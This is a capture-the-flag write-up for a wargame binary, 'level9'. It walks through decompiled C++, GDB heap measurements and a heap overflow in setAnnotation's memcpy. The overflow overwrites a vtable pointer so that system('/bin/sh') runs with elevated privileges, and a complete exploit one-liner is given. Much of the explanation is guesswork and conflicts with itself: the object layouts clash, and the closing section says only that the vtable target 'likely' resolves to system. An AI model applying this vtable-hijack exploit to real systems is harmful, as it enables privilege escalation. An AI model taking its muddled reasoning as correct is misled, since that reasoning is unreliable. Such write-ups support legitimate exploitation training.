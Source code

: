 LEVEL_9:
# 📚 Exploiting level9
-rwsr-s---+ 1 bonus0 users 6720 Mar  6  2016 level9 </br>
The level9 binary is a C++ program that runs with privileges for bonus0, where a class N with a vtable (for virtual functions like operator+ and operator-).
The program takes a command-line argument (argv[1]) and processes it through a vulnerable function.

Main Function :
```
  void main(int param_1, int param_2) {
    N *this;
    N *this_00;
    if (param_1 < 2) {
      _exit(1);  // Exit if no argv[1]
    }
    this = (N *)operator_new(0x6c);  // Allocate first N object (108 bytes)
    N::N(this, 5);  // Initialize with value 5
    this_00 = (N *)operator_new(0x6c);  // Allocate second N object
    N::N(this_00, 6);  // Initialize with value 6
    N::setAnnotation(this, *(char **)(param_2 + 4));  // Copy argv[1]
    (*(code *)**(undefined4 **)this_00)(this_00, this);  // Call vtable function
    return;
  }
```
N Constructor :
```
  void __thiscall N::N(N *this, int param_1) {
    *(undefined ***)this = &PTR_operator__08048848;  // Set vtable
    *(int *)(this + 0x68) = param_1;  // Set value at offset 0x68
    return;
  }
```
setAnnotation:
```
  void __thiscall N::setAnnotation(N *this, char *param_1) {
    size_t __n = strlen(param_1);
    memcpy(this + 4, param_1, __n);  // Vulnerable copy
    return;
  }
```

Vtable Functions:
```
int __thiscall N::operator+(N *this, N *param_1) {
  return *(int *)(param_1 + 0x68) + *(int *)(this + 0x68);
}
int __thiscall N::operator-(N *this, N *param_1) 
```

Behavior:
  - Allocates two N objects of size 0x6c (108 bytes) on the heap.
  - Initializes this with value 5, this_00 with value 6, and both with vtable at 0x08048848.
  - Copies argv[1] into this + 4 using memcpy without bounds checking.
  - Calls a function from this_00’s vtable, passing this_00 and this.

## Vulnerability
The memcpy in setAnnotation copies argv[1] to this + 4 with length strlen(argv[1]), without checking if it fits within the first object’s 108 - 4 = 104 bytes of available space.
  - A long argv[1] overflows into the second object (this_00), starting at its heap metadata (~0x804a078).
  - Can overwrite this_00’s vtable pointer (~0x804a080), controlling the function called by (*(code *)this_00->vtable)(this_00, this).
```
Based on GDB and typical heap allocation :
(gdb) b *0x08048617
Breakpoint 1 at 0x8048617
(gdb) b *0x08048639
Breakpoint 2 at 0x8048639
(gdb) run TEST
Starting program: /home/user/level9/level9 TEST

Breakpoint 1, 0x08048617 in main ()
(gdb) si
0x08048530 in operator new ()
(gdb) finish
Run till exit from #0  0x08048530 in operator new ()
0x0804861c in main ()
(gdb) info registers eax
eax            0x804a008        134520840
(gdb) continue
Continuing.

Breakpoint 2, 0x08048639 in main ()
(gdb) si
0x08048530 in operator new ()
(gdb) finish
Run till exit from #0  0x08048530 in operator new ()
0x0804863e in main ()
(gdb) info registers
eax            0x804a078        134520952
ecx            0x20f21  134945
edx            0xb7eec440       -1209088960
ebx            0x804a008        134520840
esp            0xbffff700       0xbffff700
ebp            0xbffff728       0xbffff728
esi            0x0      0
edi            0x0      0
eip            0x804863e        0x804863e <main+74>
eflags         0x200286 [ PF SF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb) set $A = 0x804a008
(gdb) set $B = 0x804a078
(gdb) p/d $B - ($A + 4)
$1 = 108
```
First Object (this):
```
  Starts at ~0x804a008 (heap chunk with metadata).
  Layout:
  0x804a008: [prev_size]
  0x804a00c: [size]
  0x804a010: [vtable = 0x08048848]
  0x804a014: [setAnnotation data]
  ...
  0x804a078: [value = 5]
```
Second Object (this_00):
```
  Starts at ~0x804a078 (0x804a010 + 0x6c).
  Layout:
  text0x804a078: [prev_size]
  0x804a07c: [size]
  0x804a080: [vtable = 0x08048848]
  ...
  0x804a0e4: [value = 6]
```

Key Offsets (from setAnnotation start at 0x804a014):
```
To this_00 start (0x804a078): 0x804a078 - 0x804a014 = 100 bytes.
To this_00->vtable (0x804a080): 108 bytes.
To this_00->vtable + 4 (0x804a084): 112 bytes.
```

Use setAnnotation’s memcpy to overwrite the vtable pointer at 0x804a080.</br>
Set it to point to a heap address (0x0804a00c) that contains the address of system (0xb7d86060).
Place "/bin/sh" nearby (0x804a084) to serve as the argument to system.

### Payload Construction

Total Length: 4 + 104 + 4 + 8 = 120 bytes (ensures memcpy copies all data, as strlen stops at null bytes).

Components:
```
Address of system : 0xb7d86060.
"\xb7\xd8\x60\x60" (big-endian, incorrect).
"\x60\x60\xd8\xb7" (little-endian, correct for x86).
Written to 0x804a014 (start of setAnnotation).

+
NOPS : "\x90" * 104:
104 NOP bytes (0x90, no operation).
Fills from 0x804a018 to 0x804a07f, covering the first object and reaching this_00’s metadata.

+
Heap address: 0x0804a00c (heap metadata, likely size field).
Reversed: "\x0c\xa0\x04\x08".
Written to 0x804a080 (vtable pointer of this_00).

+
";/bin/sh":

8 bytes: semicolon (ignored) + "/bin/sh" + null terminator.
Written to 0x804a084 onward.

0x804a014: 0xb7d86060  # system
0x804a018: \x90\x90...  # 104 NOPs
0x804a080: 0x0804a00c  # vtable -> heap metadata
0x804a084: ;/bin/sh
```
The exploit command:

> ./level9 $(python -c 'print "\x60\x60\xd8\xb7" + "\x90" * 104 + "\x0c\xa0\x04\x08" + ";/bin/sh"') 

How the Exploit Works

Step-by-Step Execution:

Allocation:

this allocated at ~0x804a008, this_00 at ~0x804a078.


setAnnotation:

memcpy(this + 4, payload, strlen(payload)) copies 120 bytes to 0x804a014.
Overwrites:

0x804a014: system address (0xb7d86060).
0x804a080: Vtable pointer to 0x0804a00c.
0x804a084: ";/bin/sh".




Vtable Call:

(*(code *)this_00->vtable)(this_00, this).
this_00->vtable (0x804a080) = 0x0804a00c.
*(0x0804a00c) = 0xb7d86060 (from payload at 0x804a014, possibly due to heap alignment or earlier overwrite).
Calls system(this_00, this), where this_00 = 0x804a078.


system Call:

this_00 (0x804a078) is close to ";/bin/sh" at 0x804a084.
system interprets nearby memory as "/bin/sh" (the semicolon is ignored).
Spawns a shell with bonus0 privileges.




Why 0x0804a00c?:

0x0804a00c is the heap chunk’s size field (metadata).
The payload places system (0xb7d86060) at 0x804a014, but the vtable points to 0x0804a00c.
Likely, heap metadata or an earlier overwrite ensures 0x0804a00c points to 0x804a014 (or nearby), containing system.
